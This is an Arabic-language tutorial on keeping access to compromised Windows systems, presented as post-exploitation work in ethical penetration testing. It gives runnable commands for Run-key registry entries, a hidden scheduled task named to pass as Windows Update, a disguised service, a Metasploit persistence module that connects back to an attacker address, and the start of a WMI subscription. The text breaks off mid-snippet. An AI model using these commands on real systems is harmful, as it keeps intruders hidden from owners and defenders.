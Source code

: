 
          .-""""""-.  
         /          \  
        |   PERSIST  |  
        |   -------  |  
        |  (.)  (.)  |  
         \   |  |   /  
          \  \__/  /  
           \      /  
            '.__.'  
             _||_  
            //  \\  
           //    \\  
          //______\\  
         "-.______.-"  
فن البقاء خفياً:

الاستمرارية (Persistence)
الاستمرارية هي تقنيات تستخدم للحفاظ على الوصول إلى النظام المستهدف حتى بعد إعادة تشغيله أو تحديثه أو إغلاقه. تعتبر من أهم جوانب مرحلة ما بعد الاستغلال في الاختبار الأخلاقي للاختراق.
طرق الاستمرارية على أنظمة Windows
1. استخدام مُسجل التشغيل (Registry)
# إنشاء مفتاح في سجل التشغيل للبدء عند تسجيل الدخول
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsService" /t REG_SZ /d "C:\path\to\payload.exe" /f

# استخدام وحدة Metasploit للاستمرارية عبر سجل التشغيل
run persistence -X -i 30 -p 443 -r [عنوان المهاجم]
2. مهام مجدولة (Scheduled Tasks)
# إنشاء مهمة تعمل كل ساعة
schtasks /create /tn "WindowsUpdate" /tr "C:\path\to\payload.exe" /sc hourly /ru "System"

# إخفاء المهمة
attrib +h +s "C:\path\to\payload.exe"
3. خدمات النظام (Services)
# إنشاء خدمة جديدة
sc create "WindowsHelper" binPath= "C:\path\to\payload.exe" start= auto

# استخدام وحدة Metasploit
run exploit/windows/local/persistence_service
4. WMI Event Subscriptions
powershell# إنشاء اشتراك حدث WMI دائم
$filterName = "WindowsFilter"
$consumerName = "WindowsConsumer"
$exePath = "C:\path\to\payload.exe"
